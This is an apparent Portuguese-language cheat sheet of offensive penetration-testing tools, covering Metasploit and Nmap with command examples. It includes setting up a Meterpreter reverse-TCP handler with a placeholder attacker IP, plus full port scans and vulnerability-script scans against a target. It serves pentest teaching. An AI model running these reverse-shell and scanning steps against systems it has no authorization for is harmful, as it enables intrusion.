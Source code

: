 # 🛡️ Ferramentas Ofensivas de Cibersegurança

Este documento lista várias **ferramentas ofensivas** utilizadas em **testes de penetração**, incluindo a sua **finalidade**, **comandos completos** e exemplos práticos.

---

## 📌 1. Metasploit Framework
- **Finalidade:** Framework para **exploração de vulnerabilidades** em redes, sistemas e aplicações.
- **Comandos de execução:**
  ```bash
  msfconsole
  ```
  - Listar exploits disponíveis:
    ```bash
    search exploit
    ```
  - Utilizar um exploit específico:
    ```bash
    use exploit/multi/handler
    ```
  - Configurar um payload:
    ```bash
    set payload windows/meterpreter/reverse_tcp
    ```
  - Definir IP do atacante:
    ```bash
    set LHOST <IP_DO_ATACANTE>
    ```
  - Executar o ataque:
    ```bash
    exploit
    ```

---

## 📌 2. Nmap (Network Mapper)
- **Finalidade:** Scanner de **redes** para **descoberta de hosts, portas abertas e sistemas operacionais**.
- **Comandos de execução:**
  ```bash
  nmap -A -T4 <IP_ALVO>
  ```
  - Para escanear uma rede inteira:
    ```bash
    nmap -sn 192.168.1.0/24
    ```
  - Para identificar portas abertas:
    ```bash
    nmap -p- <IP_ALVO>
    ```
  - Para detectar vulnerabilidades conhecidas:
    ```bash
    nmap --script vuln <IP_ALVO>
    ```

---